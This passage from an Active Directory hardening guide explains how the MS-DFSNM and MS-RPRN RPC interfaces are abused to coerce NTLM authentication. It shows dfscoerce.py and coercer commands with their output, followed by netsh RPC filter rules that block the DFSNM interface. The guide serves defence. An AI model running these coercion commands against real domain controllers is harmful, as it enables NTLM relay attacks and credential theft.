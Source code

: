 #### \[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol

The [\[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)
with UUID [4FC742E0-4A10-11CF-8273-00AA004AE673](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/af348786-37e1-47a7-90f9-25727c350c38)
is exposed over the `\PIPE\netdfs` named pipe and is often abused to initiate NTLM relay attacks:

```shell
python3 dfscoerce.py -u john -p 'Pa$$w0rd' -d contoso.com hacker-pc dc01
```

```txt
[-] Connecting to ncacn_np:dc01[\PIPE\netdfs]
[+] Successfully bound!
[-] Sending NetrDfsRemoveStdRoot!
NetrDfsRemoveStdRoot
ServerName:                      '10.213.0.100\x00'
RootShare:                       'test\x00'
ApiFlags:                        1

DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

The following sequence of `netsh.exe` commands will restrict MS-DFSNM connections to the members of the *Domain Admins* group:

```txt
rpc filter

add rule layer=um actiontype=permit filterkey=43873c58-e130-4ffb-8858-d259a673a917
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add condition field=remote_user_token matchtype=equal data=D:(A;;CC;;;DA)
add filter

add rule layer=um actiontype=block filterkey=0a239867-73db-45e6-b287-d006fe3c8b18
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add filter
```

#### \[MS-RPRN\]: Print System Remote Protocol

The [\[MS-RPRN\]: Print System Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)
with UUID [12345678-1234-ABCD-EF00-0123456789AB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/848b8334-134a-4d02-aea4-03b673d6c515)
is exposed over the `\PIPE\spoolss` named pipe and is a popular target for initiating NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip dc01.contoso.com --listener-ip hacker-pc --filter-protocol MS-RPRN --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,54795,51120,51124,38901,38902,56954,5722
[+] DCERPC port '51120' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
```

[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template